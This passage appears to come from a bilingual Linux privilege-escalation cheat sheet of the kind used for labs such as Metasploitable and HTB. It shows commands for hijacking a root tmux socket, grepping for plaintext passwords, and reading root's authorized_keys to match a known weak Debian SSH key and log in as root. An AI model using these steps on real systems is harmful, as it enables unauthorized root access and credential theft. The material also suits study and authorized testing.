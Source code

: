 ```bash
rw-rw---- 1 root devs 0 Sep  1 06:27 /tmp/dev_sess #In this case root and devs can
# If you are root or devs you can access it
tmux -S /tmp/dev_sess attach -t 0 #Attach using a non-default tmux socket

# error: terminal open failed: missing or unsuitable terminal: tmux-256color
## export term
export TERM=xterm

```

## user soft
安装的第三方软件存在漏洞，利用漏洞提权

```
#常见的用户安装soft目录
/usr/local
/usr/local/src
/opt
/home
/var/
/usr/src
```

## passwd/key
弱密码、明文密码等
* web服务配置文件，可能包含db密码、web密码等（config.php)
* db admin密码可能多处使用
* 弱密码
* 明文密码

```
./LinEnum.sh -t -k password

## find the file contains password.
grep -r password ./

## find the string start with 'password'
grep -E ^password /usr/share/wordlists/rockyou.txt


```

ssh auth key
查看 authorized_keys， 查找是否已泄露密钥[g0tmi1k](https://github.com/g0tmi1k/debian-ssh)，获取私钥后登陆
参考[htb-lame]

```
cat /root/.ssh
cat authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEApmGJFZNl0ibMNALQx7M6sGGoi4KNmj6PVxpbpG70lShHQqldJkcteZZdPFSbW76IUiPR0Oh+WBV0x1c6iPL/0zUYFHyFKAz1e6/5teoweG1jr2qOffdomVhvXXvSjGaSFwwOYB8R0QxsOWWTQTYSeBa66X6e777GVkHCDLYgZSo8wWr5JXln/Tw7XotowHr8FEGvw2zW1krU3Zo9Bzp0e0ac2U+qUGIzIu/WwgztLZs5/D9IyhtRWocyQPE+kcP+Jz2mt4y1uA73KqoXfdw5oGUkxdFo9f1nu2OwkjOc+Wv8Vw7bwkf+1RgiOMgiJ5cCs4WocyVxsXovcNnbALTp3w== msfadmin@metasploitable

grep -lr AAAAB3NzaC1yc2EAAAABIwAAAQEApmGJFZNl0ibMNALQx7M6sGGoi4KNmj6PVxpbpG70lShHQqldJkcteZZdPFSbW76IUiPR0Oh+WBV0x1c6iPL/0zUYFHyFKAz1e6/5teoweG1jr2qOffdomVhvXXvSjGaSFwwOYB8R0QxsOWWTQTYSeBa66X6e777GVkHCDLYgZSo8wWr5JXln/Tw7XotowHr8FEGvw2zW1krU3Zo9Bzp0e0ac2U+qUGIzIu/WwgztLZs5/D9IyhtRWocyQPE+kcP+Jz2mt4y1uA73KqoXfdw5oGUkxdFo9f1nu2OwkjOc+Wv8Vw7bwkf+1RgiOMgiJ5cCs4WocyVxsXovcNnbALTp3w== *.pub

ssh -i 57c3115d77c56390332dc5c49978627a-5429 root@$tip
```
